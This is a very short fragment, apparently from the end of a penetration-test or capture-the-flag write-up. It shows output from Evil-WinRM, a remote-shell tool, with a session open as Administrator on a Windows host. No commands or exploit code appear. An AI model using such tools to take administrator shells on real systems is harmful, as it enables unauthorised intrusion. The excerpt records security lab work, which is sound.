remote\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
